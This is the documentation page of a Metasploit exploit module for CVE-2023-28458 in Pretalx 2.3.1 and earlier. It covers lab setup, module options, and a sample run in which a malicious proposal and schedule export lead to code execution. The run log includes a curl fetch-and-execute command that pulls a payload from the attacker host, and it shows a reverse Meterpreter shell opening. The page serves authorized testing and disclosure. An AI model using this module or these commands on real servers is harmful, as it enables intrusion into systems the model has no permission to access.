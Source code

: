 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pretalx_rce_cve_2023_28458`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set PYTHON_VERSION [running Python version - e.g. python3.8]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### PYTHON_VERSION

The module needs to know running python version to be able to properly select a directory for malicious hook.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf exploit(linux/http/pretalx_rce_cve_2023_28458) > run verbose=true 
[*] Command to run on remote host: curl -so ./SeHhGRHU http://192.168.168.128:8888/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./SeHhGRHU;./SeHhGRHU&
[*] Fetch handler listening on 192.168.168.128:8888
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1 and debug mode is enabled
[*] Registering malicious speaker and proposal
[*] Logging with credentials: martin_sutovsky@rapid7.com/kali
[*] Approving proposal
[*] Uploading resource with payload
[*] Inserts write primitve
[*] Adding proposal to schedule
[*] Releasing schedule
[*] Exporting schedule
[*] Waiting for cron to run Python under Pretalx user
[*] Client 192.168.168.146 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.146 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:48816) at 2025-08-22 15:15:28 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.4
OS           : Debian 11.2 (Linux 6.8.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: pretalxuser

```

